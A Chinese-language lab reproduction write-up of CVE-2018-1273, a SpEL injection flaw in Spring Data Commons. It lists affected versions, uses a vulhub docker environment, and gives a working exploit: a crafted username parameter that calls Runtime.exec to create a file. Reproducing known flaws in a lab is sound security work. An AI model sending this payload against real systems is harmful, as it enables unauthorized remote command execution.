

## Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

#### 1.漏洞信息

| 项目     | 描述                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞名称 | Spring Data Commons 远程命令执行漏洞                         |
| CVE编号  | CVE-2018-1273                                                |
| 漏洞描述 | Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。 |
| 影响范围 | Spring Data Commons 1.13 – 1.13.10 (Ingalls SR10) Spring Data REST 2.6 – 2.6.10(Ingalls SR10) Spring Data Commons 2.0 – 2.0.5 (Kay SR5) Spring Data REST 3.0 – 3.0.5(Kay SR5) 官方已经不支持的旧版本 |
|          |                                                              |

#### 2.漏洞复现

###### 2.1.环境搭建

参考https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1273

启动docker

```
docker-compose up -d 
```

###### 2.2.复现漏洞

```
1访问漏洞页面 http:127.0.0.1:8080/users

2输入用户名，密码，确认密码（此过程抓包）

3修改username=xxx为username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/bb")]=aa其他参数保持不变，post这些数据给靶机
```



###### 2.3.问题现象

成功新建/tmp/bb


参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1273